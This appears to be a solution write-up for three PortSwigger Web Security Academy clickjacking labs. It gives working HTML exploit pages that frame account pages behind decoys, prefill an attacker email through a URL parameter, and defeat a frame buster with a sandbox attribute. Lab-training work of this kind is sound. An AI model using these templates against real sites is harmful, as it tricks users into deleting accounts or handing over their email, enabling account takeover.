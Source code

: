 # 1. Lab: [Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

This lab contains login functionality and a **delete account button** _that is protected by a CSRF token_. A user will **click** on elements that display the word _"click"_ on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the _user into deleting their account_. The lab is solved when the _account is deleted_.

You can log in to your own account using the following credentials: wiener:peter

Note
The victim will be using _Chrome_ so test your exploit on that browser

```html
<html>
	<head>
		<style>
			/* iframe */
			#vulnerable_website {
				position: relative;
				width: 1028px;
				height: 1000;
				top: 0;
				left: 0;
				opacity: 0.5; /*transperant*/
				z-index: 2;
				padding-left: 80px; /*top*/
			}

			#decoy_website {
				position: absolute;
				z-index: 1; /*bottom*/
			}

			#decoy_website button {
				margin-top: -490px;
				margin-left: 130px;
			}
		</style>
	</head>

	<body>
		<div id="decoy_website">
			<img
				src="https://www.freevector.com/uploads/vector/preview/25312/Hammock_Between_Two_Coconut_Trees_On_The_Beach.jpg"
				alt="pic"
			/>
			<h1>You Are The Winner!!!</h1>
			<button>click to win!</button>
		</div>
		<iframe
			id="vulnerable_website"
			src="https://0a9400f303a717ba830b9d72000400e5.web-security-academy.net/my-account"
		>
		</iframe>
	</body>
</html>
```

# 2. [Lab: Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

This lab extends the basic clickjacking example in _Lab: Basic clickjacking with CSRF token protection_. **The goal of the lab is to change the email address of the user** by **prepopulating** a form using a **URL parameter** and enticing the user to inadvertently click on an "Update email" button.
_change_: email=atacker@gmail.com

add:

```javascript
?email=atacker@gmail.com
```

```html
<iframe
	id="vulnerable_website"
	src="https://0ac300a2041d39e2816a7a49006000dd.web-security-academy.net/my-account?email=atacker@gmail.com"
>
</iframe>
```

# 3. [Lab: Clickjacking with a frame buster script](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the **frame buster** and conduct a **clickjacking attack that changes the users email address**?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

add:

```js
sandbox = 'allow-forms'
```

```html
<iframe
	id="vulnerable_website"
	src="https://0afe00510323657e800b99b2006d0024.web-security-academy.net/my-account?email=atack@gmail.com"
	sandbox="allow-forms"
>
</iframe>
```

